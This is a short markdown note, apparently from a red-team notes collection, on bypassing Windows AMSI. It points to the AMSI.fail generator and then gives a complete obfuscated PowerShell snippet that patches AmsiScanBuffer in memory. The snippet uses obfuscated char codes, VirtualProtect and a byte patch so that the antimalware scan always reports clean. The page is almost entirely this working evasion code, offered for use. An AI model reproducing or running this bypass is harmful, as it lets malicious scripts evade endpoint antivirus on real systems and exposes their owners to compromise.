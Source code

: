 # AMSI bypass

## AMSi.fail
Link to resource (https://amsi.fail/)
AMSI.fail generates obfuscated PowerShell snippets that break or disable AMSI for the current process. The snippets are randomly selected from a small pool of techniques/variations before being obfuscated. Every snippet is obfuscated at runtime/request so that no generated output share the same signatures.

```Powershell
#Rasta-mouses Amsi-Scan-Buffer patch \n
$luezn = @"
using System;
using System.Runtime.InteropServices;
public class luezn {
    [DllImport("kernel32")]
    public static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32")]
    public static extern IntPtr LoadLibrary(string name);
    [DllImport("kernel32")]
    public static extern bool VirtualProtect(IntPtr lpAddress, UIntPtr gaayhl, uint flNewProtect, out uint lpflOldProtect);
}
"@

Add-Type $luezn

$injunwe = [luezn]::LoadLibrary("$(('ámsí.'+'dll').NORmAlize([cHAr]([ByTE]0x46)+[chAR]([bYTE]0x6f)+[chaR](114*109/109)+[cHar]([BYtE]0x6d)+[cHaR](68+54-54)) -replace [cHar](92+68-68)+[chaR]([BYTe]0x70)+[CHAr](123)+[cHar]([BYtE]0x4d)+[CHAR](110*45/45)+[cHar](125))")
$tkpctk = [luezn]::GetProcAddress($injunwe, "$([ChAR](8+57)+[cHAR](109+50-50)+[cHAR](115*56/56)+[CHAR]([bYTE]0x69)+[Char](36+47)+[cHAR](99)+[cHaR]([bYte]0x61)+[char]([BYTE]0x6e)+[CHar]([bYTE]0x42)+[char]([bYte]0x75)+[ChAR]([bytE]0x66)+[CHaR](83+19)+[cHAr](101*68/68)+[chAr](38+76))")
$p = 0
[luezn]::VirtualProtect($tkpctk, [uint32]5, 0x40, [ref]$p)
$xtwu = "0xB8"
$dtcl = "0x57"
$kpnv = "0x00"
$cjij = "0x07"
$jjki = "0x80"
$usev = "0xC3"
$vdxhq = [Byte[]] ($xtwu,$dtcl,$kpnv,$cjij,+$jjki,+$usev)
[System.Runtime.InteropServices.Marshal]::Copy($vdxhq, 0, $tkpctk, 6)
```
